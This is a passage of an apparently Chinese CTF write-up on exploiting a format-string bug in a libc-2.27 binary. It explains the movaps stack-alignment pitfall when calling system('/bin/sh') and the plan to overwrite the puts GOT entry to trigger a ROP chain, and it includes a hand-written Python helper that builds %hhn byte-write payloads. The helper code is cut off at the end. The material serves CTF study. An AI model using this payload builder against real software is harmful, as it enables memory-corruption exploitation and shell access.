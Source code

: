 ```python
			log.warning(hex(seek))
			raw_input()
		p.close()
```
在获得了确切地址之后就可以直接`call onegadget`但是...明明我把`$rsp+0x70`设置为0了但是却没有成功...于是我开始控制`stack`来控制执行流...

期间遇到两个坑:

## xmm
libc-2.27编译的时候被优化在执行`system('/bin/sh')`期间有用到xmm寄存器主要可能出错的地方是
```sh
   0x7ffff7a332e6 <do_system+1078>:	movq   xmm0,QWORD PTR [rsp+0x8]
   0x7ffff7a332ec <do_system+1084>:	mov    QWORD PTR [rsp+0x8],rax
   0x7ffff7a332f1 <do_system+1089>:	movhps xmm0,QWORD PTR [rsp+0x8]
=> 0x7ffff7a332f6 <do_system+1094>:	movaps XMMWORD PTR [rsp+0x40],xmm0
```
此处因为xmm寄存器有128位要求rsp+0x40要按照字对齐所以我们在`call_system`的时候的栈地址要按照字对齐.


## fmtstr
本题我的思路
* 改的`got@puts`顺便泄漏
* 改写`stack`上内容为`rop`做准备
* 改写`got@puts`触发`rop_chain`
发现工程量有点大....加上远端有个5秒左右的`alarm`.所以只能一次把所有值设置好了....题目给的缓冲区比较充裕.
但是`pwntools`里自带的fmtstr_payload工具有些睿智....把地址放前面把自己给'\x00'截断了....
于是自己写了个比较简陋的工具.
`shellcraft`...
```python
from pwn import *
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr
def cal(i):
	if i<0:
		return i+256
	return i
def fmtstr(off,data,pre=0,space=0x180,arch='amd64',):
	if arch!='amd64':
		return False
	part2=""
	for key in data.keys():
		for offset in range(8):
			part2+=p64(key+offset)
	part1=""
	idx=0
	for value in data.values():
		for offset in range(8):
			if value==0 and pre==0:
				part1+="%"+str(off+idx+(space/8))+"$hhn"
				idx+=1
			else:
				#print hex(value&0xff),hex(pre),hex(cal((value&0xff)-pre))
				part1+="%"+str(cal((value&0xff)-pre))+"c%"+str(off+(space/8)+idx)+"$hhn"
				pre=value&0xff
```